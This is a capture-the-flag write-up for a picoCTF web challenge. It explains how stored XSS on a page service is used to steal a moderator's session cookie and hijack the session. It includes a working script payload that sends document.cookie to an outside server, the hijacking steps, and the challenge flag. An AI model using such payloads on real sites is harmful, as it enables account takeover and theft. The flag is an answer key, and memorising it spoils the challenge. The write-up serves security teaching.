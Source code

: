 ## secure_page_service - 100 (Web Exploitation)
####writeup by Oksisane

### Problem

The bad guys have hidden their access codes on an [anonymous secure page service](http://sps.picoctf.com/). Our intelligence tells us that the codes was posted on a page with id `43440b22864b30a0098f034eaf940730ca211a55`, but unfortunately it's protected by a password, and only site moderators can view the post without the password. Can you help us recover the codes?

### Hint

What happens if you put HTML into a page?

## Answer


### Overview

Exploiting XSS vulnerabilities to get Admin user's session cookie.

### Details
Cross-site scripting (commonly referred to as XSS) is a type of web exploit which involves an attacker being able to inject client side scripting into pages viewable by other users. First register an account and log in. Then make a simple page such as ```<h1>Hi</hi>``` which produces <h1>Hi</h1>. From this it is clear that secure_page_service is not filtering any html we put into a page and instead is interpreting it as normal, an XSS vulnerability! But how can we exploit this? The key here is the Report to Moderator button. We can setup a page that records the moderator's session cookie and then lure them to the page by reporting it. Once we have their session cookie we can preform a [session hijacking](http://en.wikipedia.org/wiki/Session_hijacking) attack (replace our session with that of the moderators), so that secure_page_service will think we are the moderator and override the password check when we browse to page `43440b22864b30a0098f034eaf940730ca211a55`.
So now we what to do once we have our cookie, but how do we get it?

We can form a page such as
```html
<script>
location.href=("http://ehsandev.com/pico.php?c="+document.cookie)
</script>
```
When a user browses to this page they are redirected to a page on a server (in this case ehsandev.com) with their cookies in the url. The attacker can then simply view the log of the request made to the servers and copy out the session id. In this example, a user would be redirected to `http://ehsandev.com/pico.php?c=PHPSESSID=02b8t6vqgvfigv4at2ovp3e0g6` where `02b8t6vqgvfigv4at2ovp3e0g6` is the session cookie we are looking for and would appear in the logs of this site. Finally, we have to manually set the admin cookie to our `PHPSESSID` cookie using a Chrome extension such as [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) or a Firefox extension such as [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/). Then, we view the page `43440b22864b30a0098f034eaf940730ca211a55` and we get our flag!

### Flag
wow_cross_site_scripting_is_such_web
